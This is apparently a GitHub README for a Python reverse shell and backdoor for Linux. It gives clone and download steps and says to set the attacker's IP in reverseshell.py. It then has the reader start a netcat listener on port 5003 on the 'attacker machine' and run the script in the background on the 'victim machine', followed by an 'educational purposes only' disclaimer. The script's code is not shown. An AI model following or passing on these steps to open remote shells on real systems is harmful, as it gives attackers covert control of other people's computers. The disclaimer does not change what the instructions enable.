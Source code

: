 # ReverseShell | Written In ![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54)
- A python backdoor/reverseshell for linux.

![backd](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/backd_profile.jpeg)

## How to use?

Clone the repo:
```
git clone https://github.com/Keyj33k/ReverseShell.git
```

After successful cloning:
```
cd ReverseShell
```

Or download the zip:
```
https://github.com/Keyj33k/ReverseShell/archive/refs/heads/main.zip
```
## You will found a file called >> reverseshell.py:

- Now you need to change the ip in the script.

## After saving your settings you can test it:

- On the attacker machine:
```
nc -lnvp 5003
```

- or use the silentHill listener:
```
python3 silentHill.py
```

- On the vivtim machine:
```
python3 reverseshell.py &
```
# Explained:

![listener](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/reverseshell.jpeg)

Note:
- This tool is only for educational purposes. 
- I'm not responsible for your actions. 
- Don't hack anyone without their permissions.
- With great force follows great responsibility.
# Thank you

